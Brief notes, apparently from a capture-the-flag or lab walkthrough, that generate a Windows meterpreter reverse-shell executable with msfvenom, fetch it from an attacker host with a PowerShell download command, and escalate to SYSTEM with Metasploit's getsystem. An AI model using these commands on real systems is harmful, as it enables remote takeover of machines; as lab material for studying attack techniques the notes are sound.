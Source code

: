msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.4.36.140 LPORT=8888 -f exe > reverse.exe

```
powershell -c "Invoke-WebRequest -Uri '10.4.36.140:8000/reverse.exe' -OutFile 'C:\Windows\Temp\reverse_shell.exe'"
```

use getsystem builtinto msf and system rooted
(meant to do another way via message.exe)

